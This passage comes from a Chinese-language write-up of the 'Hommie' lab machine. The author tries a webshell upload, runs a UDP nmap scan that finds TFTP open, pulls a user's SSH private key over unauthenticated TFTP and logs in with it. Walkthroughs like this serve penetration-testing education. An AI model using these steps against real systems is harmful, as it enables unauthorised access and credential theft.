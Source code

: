 ![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/7.Hommie.002.png)

那么大概率.web目录就是网站的根目录了。传一个马上去

上传后访问发现不能对php进行解析。可能是目录限制

我们新建一个目录，发现命令也收到了限制。那这里我们应该要换一条路了



## 4. 3.UDP扫描

对靶机进行udp扫描

```Bash
──(root㉿kali)-[/home/kali]
└─# nmap -sU  192.168.9.9 -p 1-100 //限制端口 Udp扫的很慢
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 17:52 CST
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 52.80% done; ETC: 17:54 (0:00:37 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 67.80% done; ETC: 17:54 (0:00:32 remaining)
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 68.80% done; ETC: 17:54 (0:00:31 remaining)
Stats: 0:01:42 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 91.30% done; ETC: 17:54 (0:00:09 remaining)
Nmap scan report for 192.168.9.9
Host is up (0.00056s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp
MAC Address: 08:00:27:91:0D:AD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 124.69 seconds
```
## 5. 4.tftp连接

可以发现开启了tftp服务，TFTP 没有身份验证机制，且不加密传输

利用tftp连接服务器

```在标准的 TFTP 协议中，没有直接查看服务器端目录内容的命令。TFTP 设计非常简洁，只支持上传和下载文件，不提供如 FTP 那样的文件浏览功能
```


```Bash
tftp 192.168.9.9
get id\_rsa //猜测这里有私钥
```
利用下载的私钥连接

```Bash
chmod 600 id\_rsa
ssh -i id\_rsa alexia@192.168.9.9
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/7.Hommie.003.png)
